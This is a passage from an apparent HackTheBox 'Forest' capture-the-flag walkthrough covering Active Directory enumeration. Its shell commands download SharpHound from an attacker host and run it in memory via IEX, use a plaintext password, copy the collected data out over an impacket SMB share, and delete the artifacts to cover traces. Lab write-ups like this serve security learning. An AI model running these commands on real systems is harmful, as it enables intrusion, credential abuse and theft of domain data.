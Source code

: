 Downloading <mark>SharpHound.ps1</mark> and executing it directly in memory using the <mark>Invoke-Expression</mark> cmdlet.

{% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX (New-Object System.Net.WebClient).DownloadString('
http://10.10.14.11:8000/SharpHound.ps1')
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> Invoke-BloodHound -CollectionMethod All -Doma
in htb.local -LdapUsername svc-alfresco -LdapPassword s3rvice -ZipFilename "BloodHound.zip"
{% endhighlight %}

Transfering <mark>20241022133705_BloodHound.zip</mark> to my attack host using <mark>smbserver.py</mark>.

{% highlight shell %}
┌──(iwo㉿kali)-[/usr/share/doc/python3-impacket/examples]
└─$ sudo python3 smbserver.py -smb2support CompData /home/iwo/Desktop/Boxes/Forest/share
[sudo] password for iwo: 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
{% endhighlight %}

{% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> move 20241022133705_BloodHound.zip \\10.10.14.11\CompData
{% endhighlight %}

Lastly, before moving to <mark>BloodHound</mark> don't forget to delete the output of our PowerShell script. The binary file was created while executing it.

{% highlight shell %}
*Evil-WinRM* PS C:\Users\svc-alfresco\AppData\Local\Temp> dir


    Directory: C:\Users\svc-alfresco\AppData\Local\Temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/22/2024   1:37 PM          18852 20241022133705_BloodHound.zip
-a----       10/22/2024   1:37 PM          19746 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
{% endhighlight %}

#### BloodHound

While investigating the domain I notice two paths to escalate our privileges.
